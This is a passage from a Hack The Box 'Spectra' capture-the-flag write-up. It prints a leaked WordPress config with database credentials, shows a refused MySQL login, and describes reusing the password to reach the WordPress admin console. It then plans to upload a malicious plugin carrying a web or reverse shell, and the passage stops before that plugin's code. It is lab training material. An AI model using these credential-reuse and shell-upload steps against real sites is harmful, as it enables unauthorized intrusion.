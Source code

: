 > Username: devtest
>
> Password: devteam01

```php
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'dev' );

...skipping 1 line
define( 'DB_USER', 'devtest' );

/** MySQL database password */
define( 'DB_PASSWORD', 'devteam01' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );
```

As the `nmap` enumeration listed a MySQL database, tried to use these creds to authenticate to it but the source IP wasn't allowed to connect to the specified instance, preventing us to harvest some sensitive information from the database.

```bash
$ mysql -u devtest -p -h spectra.htb
Enter password:
ERROR 1130 (HY000): Host '10.10.10.10' is not allowed to connect to this MySQL server
```

As credential reuse is a common thing, tried to authenticate to WordPress with the password found for the username `administrator` and had success in it!

![HTB Spectra - Wordpress](https://i.imgur.com/7k3nxVN.png){: .align-center}

## Initial Access

Once we have access to the WordPress administration console, there are several ways to get a reverse shell with this permission, being the most common the upload of a malicious plugin to it with a web shell or reverse shell payload.

The easiest way would use the [wp_admin_shell_upload](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/unix/webapp/wp_admin_shell_upload.md) module from Metasploit Framework but, if you're preparing for the OSCP exam, where you should wisely choose when to use the msfconsole, using it for this isn't a good idea :smile:.

So, to create this plugin, I have executed the following steps:

- Created a file with the plugin header. This header must follow the minimum requirements as documented on [Header Requirements \| Plugin Developer Handbook \| WordPress Developer Resources](https://developer.wordpress.org/plugins/plugin-basics/header-requirements/). In our case I've created the file `evilplugin.php` with the contents below:
